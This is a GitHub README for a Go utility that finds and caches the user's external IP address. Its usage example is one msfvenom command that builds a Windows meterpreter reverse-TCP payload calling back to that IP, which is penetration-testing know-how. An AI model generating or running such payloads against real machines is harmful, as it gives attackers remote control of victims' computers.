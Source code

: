 # me

## Install

```
go install github.com/cokeBeer/me@latest
```

## Usage
For example, we can generate a meterpreter on VPS and fill the `LHOST` parameter simply by `me`
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=`me` LPORT=4444 >mp.exe
```
Your will never need to query your external ip and paste it again.

## How it work
For the first time, `me` will request some apis to get your external ip and save the ip to `$USER/.myexternalip`.
```
http://myexternalip.com/raw
http://api.ipify.org/
https://myexternalip.com/raw
https://api.ipify.org/
```
Next time, `me` will get the ip from file.
You can use `-f` option to make `me` query again, and use `-d` option to see debug information when occur errors.

## Warning
Don't use it when you are using a proxy.